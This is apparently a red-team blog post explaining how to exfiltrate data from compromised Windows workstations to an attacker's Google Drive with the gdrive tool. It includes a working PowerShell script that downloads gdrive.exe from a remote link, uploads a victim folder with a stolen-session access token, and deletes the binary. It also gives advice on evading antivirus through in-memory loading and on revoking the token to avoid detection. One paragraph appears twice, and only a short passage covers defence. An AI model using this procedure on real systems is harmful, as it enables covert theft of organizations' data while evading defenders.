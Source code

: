 ```yaml
---
title: "Stealthy and Efficient Data Exfiltration using Google Drive"
categories: 
  - exfiltration
tags:
  - red team
  - post exploitation
  - google drive
toc: false
---
```


Data exfiltration is a continual process during the post-exploitation stage. After initial entry, the attacker targets the domain admins. The attackers often map the network and use stolen credentials to authenticate into other workstations, continuing the process until the domain admin credentials are found. Throughout this process, as the attacker gains access to additional workstations and domains, data exfiltration is performed.

To help with this process, an attacker can use gdrive, a legitiment command line tool that uses the Google Drive API to perform typical tasks done in the Google Drive web app, such as uploading a file or folder. Gdrive is written in Go and offers precompiled executables for multiple OS, which are not flagged by anti-virus. An attacker can use this useful tool to upload data on the victim's workstation to the attacker's Google Drive account. The stolen data can then be viewed in a web browser or downloaded on the attacker's server using the same tool. This tool works with all Google Drive accounts. Furthermore, certain Google Drive accounts, including those offered by some universities, have unlimited storage. This makes Google Drive an appealing method for data exfiltration.

First the attacker needs to obtain the OAUTH access token to Google Drive. When first run, gdrive gives an url for the user to visit, where Gdrive will prompt for access rights. While this can be done interactively on the victim's PC, it is best to perform this on the server, and then save the access token using the --config flag. The access token can then be used on the victim's PC using the --access-token paremeter on the victim's PC to skip this process and get straight to the exfiltration.

Opening the link:
<figure>
	<a href="/assets/images/78c319d8f22bba24031791059e52eac7.png"><img src="/assets/images/78c319d8f22bba24031791059e52eac7.png"></a>
</figure>
First the attacker needs to obtain the OAUTH access token to Google Drive. When first run, gdrive gives an url for the user to visit, where Gdrive will prompt for access rights. While this can be done interactively on the victim's PC, it is best to perform this on the server, and then save the access token using the --config flag. The access token can then be used on the victim's PC using the --access-token paremeter on the victim's PC to skip this process and get straight to the exfiltration.

Data exfiltration is extremely difficult to detect when the attacker uses legitimate channels, such as cloud storage. Outbound SSL Decryption using a SSL Forward Proxy gives the defenders greater visibility. Furthermore, defenders can fine-tune their IDS to better detect data exfiltration. It is important to stress defense in depth, as no single solution is enough.

The config file is saved to the folder "test." View the token_v2.json file to get the access token that will be used on the victim's workstation.

Now that the access token is configured, it's time to download and run gdrive on the victim's workstation and exfiltrate the data. I will download the .exe for Windows 32 bits from Google Drive to disk, and a folder "C:/temp/test" will be exfiltrated. The --recursive flag uploads a directory rather than a file. If the program is detected by antivirus in the future, the powershell script Invoke-ReflectivePEInjection can be used to download and run the .exe in memory rather than disk. The following script is Powershell 2.0 compatable.

```
$path='c:\temp\test'
(New-Object System.Net.WebClient).DownloadFile("https://docs.google.com/uc?id=0B3X9GlR6EmbnV3RNeFVUQjZvS2c&export=download","c:\windows\temp\gdrive.exe")
& "c:\windows\temp\gdrive.exe" upload $path --recursive --access-token 'access token from config'
rm "c:\windows\temp\gdrive.exe"
```

The exfiltrated data can be downloaded on the attacker's server or viewed in the browser with Google Drive. Because the access token could potentially get logged by the network defenders, the attacker should immediately invalidate the token by revoking GDrive from accessing Google Drive: [https://myaccount.google.com/permissions?pli=1](https://myaccount.google.com/permissions?pli=1)